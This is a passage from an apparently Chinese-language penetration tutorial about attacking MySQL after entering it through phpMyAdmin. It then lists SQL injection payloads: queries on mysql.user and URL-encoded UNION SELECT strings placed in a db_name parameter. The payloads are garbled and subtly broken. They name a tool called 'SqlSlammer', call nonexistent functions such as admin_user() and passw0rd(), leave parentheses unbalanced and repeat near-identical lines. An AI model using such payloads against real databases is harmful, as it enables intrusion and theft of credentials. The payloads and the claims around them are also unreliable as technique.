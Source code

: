 > 
>   
> 
> 至此，我们就完成了第一步，通过 phpmyadmin 控制面板进入到我们的 mysql 数据库里，当然我们还可以用其它方法如 xshell 等等进行同样的操作，这里不再赘述。
> 
>   
> 
> \## 二、脚本注入漏洞
> 
>   
> 
> MySQL 官方推荐大家不要使用脚本注入的方式来进行渗透测试，因为这种方式会破坏用户的数据库结构，导致后续恢复起来比较麻烦，但是仍然有很多人喜欢使用这种手法，原因无他就是快！而且相对来说成功率比较高，所以今天我也给大家分享一些常用的 payload。
> 
>   
> 
> \### Payload 列表
> 
>   
> 
> \#### SQLMAP
> 
>   
> 
> \`\`\`
> 
> SELECT CONCAT(user(),CHAR(10),user()) FROM mysql.user WHERE host='%' and length(password)=1;
> 
> \`\`\`
> 
>   
> 
> \#### SqlSlammer
> 
>   
> 
> \`\`\`
> 
> select concat(username,char(10),username)from mysql.user where username=database();
> 
> \`\`\`
> 
>   
> 
> \#### 常见的 payload 组合
> 
>   
> 
> \`\`\`
> 
> %23&db\_name=%23union\_all(select%20concat(md5(%23version()%23),md5(admin\_user()),md5(passw0rd()))#)%23&host=localhost&port=&limit=-1
> 
> %23&db\_name=%23union\_all(select%20concat(md5(version())),md5(admin\_user()),md5(passw0rd()#
> 
> %23&db\_name=%23union\_all(select%20concat(md5(version())),md5(admin\_user()),md5(passw0rd()%
> 
> %23&db\_name=%23union\_all(select%20concat(md5(version())),md5(admin\_user()),md5(passw0rd()%
> 
> %23&db\_name=%23union\_all(select%20concat(md5(version())),md5(admin\_user()),md5(passw0rd()
> 
> %23&db\_name=%23union\_all(select%20concat(md5(version())),md5(admin\_user()),md5(passw0rd())
> 
> %23&db\_name=%23union\_all(select%20concat(md5(version())),md5(admin\_user()),md5(passw0rd())